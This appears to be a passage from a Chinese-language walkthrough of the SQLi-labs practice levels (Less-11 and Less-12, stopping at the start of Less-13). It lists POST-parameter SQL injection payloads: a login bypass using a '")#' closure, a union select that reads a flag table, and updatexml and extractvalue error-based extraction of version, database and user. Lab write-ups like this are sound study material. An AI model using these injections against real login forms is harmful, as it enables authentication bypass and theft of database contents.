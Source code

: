 
## Less-11   ('单引号闭合,post型union联合查询)

post:   password=admin&uname=-1' union select flag from flag%23



## Less-12   (")双引号括号闭合,post型union联合查询/报错注入)

1. post传参：  passwd=admin&uname=admin   登陆成功
2. passwd=admin&uname=admin' 登陆失败，无显示
3. passwd=admin&uname=admin" 出现报错，**从中确定闭合方式为：")**

![img](assets/1666583813910-229b6bb3-0e39-4644-bd57-d0be9886ef50.png)

1. 因此构造闭合测试：
2. passwd=admin&uname=admin")#  成功登录,说明构造成功，且后台其实连密码都没有检验（。。。。）
3. fuzz测试，发现没有任何waf
4. 因此直接进行union联合查询即可，也可以进行报错注入如下：
5. passwd=admin&uname=-1") union select @@version，database()%23

![img](assets/1666584198426-62e10f37-7fc3-4352-b841-ad94c659ecc8.png)

1. passwd=admin&uname=-1") or updatexml(1,concat(0x7e,(select flag from flag),0x7e),1)%23
2. passwd=admin&uname=-1") and (extractvalue(1,concat(0x7e,(select user()),0x7e)))#

![img](assets/1666584218793-2919a64b-3985-430d-9020-db78ce6eac77.png)

过关。

## Less-13   (')单引号括号闭合，报错注入，post型时间盲注)

随意测试发现：
